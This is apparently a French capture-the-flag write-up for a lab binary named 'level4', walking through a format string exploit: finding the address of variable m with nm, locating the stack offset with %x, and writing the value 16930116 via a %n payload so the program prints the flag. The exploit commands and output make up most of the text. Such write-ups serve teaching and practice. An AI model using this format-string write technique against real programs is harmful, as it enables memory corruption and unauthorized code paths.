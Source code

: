
- Nous voyons dans le code source que la variable que nous devons override est m. Avec la commande `nm` nous pouvons afficher les addresses.

<pre>
$> nm level4
...
<strong>08049810 B m</strong>
080484a7 T main
08048457 T n
08048444 T p
...
</pre>

- Nous avons l'adresse qui nous interesse. En litle indian: 10 98 04 08. Nous devons alors chercher l'endroit exacte de l'adresse grace au printf.

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%x ' * 13)" | ./level4
AAAAb7ff26b0 bffff734 b7fd0ff4 0 0 bffff6f8 804848d bffff4f0 200 b7fd1ac0 b7ff37d0 41414141 <strong>8049810</strong>
</pre>

- On voit que dans la source il faut que m soit egal a 16930116 pour que le programe execute un cat sur le flag. Grace au %13\$n nous prenons la 13e adresse (soit l'adresse de la variable m que nous devons override).

<pre>
python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%16930108d'+ '%13\$n')" | ./level4> /tmp/output
</pre>

- Il suffit alors d'ouvrir le `/tmp/output` avec vim pour voir le flag. (attention au cat ^^).
